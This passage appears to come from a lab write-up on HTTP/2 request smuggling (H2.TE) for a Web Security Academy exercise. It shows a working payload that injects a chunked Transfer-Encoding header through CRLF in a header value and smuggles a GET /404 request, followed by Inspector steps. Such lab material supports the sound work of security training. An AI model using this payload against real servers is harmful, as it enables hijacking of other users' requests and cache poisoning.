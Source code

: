 To test the H2.TE payload like this one:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

GET /404 HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Content-Length: 10

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We must add a new header and add and the “Transfer-Encoding: chunked” header
inside its value, in the Inspector, with the keys “Shift+Return” (Mayús+Enter):

![img](media/1e63eed52cfdf85a1186a79634684dad.png)

Every 2 requests, one is to /404:

![img](media/c6a1e509729fc6b24d40b8064d226155.png)

